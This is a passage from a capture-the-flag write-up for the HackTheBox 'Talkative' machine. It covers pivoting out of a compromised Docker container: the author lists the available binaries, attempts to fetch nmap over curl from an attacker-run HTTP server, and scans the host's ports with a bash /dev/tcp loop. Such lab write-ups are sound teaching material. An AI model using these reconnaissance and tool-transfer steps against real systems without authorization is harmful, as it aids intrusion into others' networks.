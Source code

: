 - Current Docker container IP address: `172.17.0.10`

Typically, Docker container IP range is `172.17.0.0/16`, and the host is in `172.17.0.1`.

So, maybe we need to **pivot to the host machine**?

**I then enumerated what binaries I can use, and I found the `ssh` binary:**
```shell
www-data@c468eed9f9fc:/var/www/talkative.htb/bolt/public$ ls -lah /usr/bin
[...]
-rwxr-xr-x 1 root root   779K Mar 13  2021 ssh
-rwxr-xr-x 1 root root   367K Mar 13  2021 ssh-add
-rwxr-sr-x 1 root ssh    347K Mar 13  2021 ssh-agent
-rwxr-xr-x 1 root root   1.5K Mar 13  2021 ssh-argv0
-rwxr-xr-x 1 root root    11K Mar 13  2021 ssh-copy-id
-rwxr-xr-x 1 root root   475K Mar 13  2021 ssh-keygen
-rwxr-xr-x 1 root root   459K Mar 13  2021 ssh-keyscan
[...]
```

Hmm... `ssh` is installed...

**Maybe I can SSH into the host??**

Let's do some port scanning. We can do that via `nmap`.

**However, I tried to transfer the `nmap` static binary, but no luck:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|16:00:52(HKT)]
└> python3 -m http.server -d /opt/static-binaries/binaries/linux/x86_64/ 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
www-data@c468eed9f9fc:/var/www/talkative.htb/bolt/public$ curl -s http://10.10.14.6/nmap
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="http://talkative.htbnmap">here</a>.</p>
<hr>
<address>Apache/2.4.52 (Debian) Server at 10.10.14.6 Port 80</address>
</body></html>
```

It just kept redirecting to `talkative.htb`...

I also tried to use base64 encode and decode to transfer file, but no luck again.

**Nevermind, we can just write a Bash script to scan ports!**
```shell
www-data@c468eed9f9fc:/var/www/talkative.htb/bolt/public$ for port in {1..65535}; do (echo >/dev/tcp/172.17.0.1/$port) >/dev/null 2>&1 && echo "port $port is open"; done
port 22 is open
port 80 is open
port 6000 is open
port 6001 is open
port 6002 is open
port 6003 is open
port 6004 is open
port 6005 is open
port 6006 is open
port 6007 is open
port 6008 is open
port 6009 is open
port 6010 is open
port 6011 is open
port 6012 is open
port 6013 is open
```
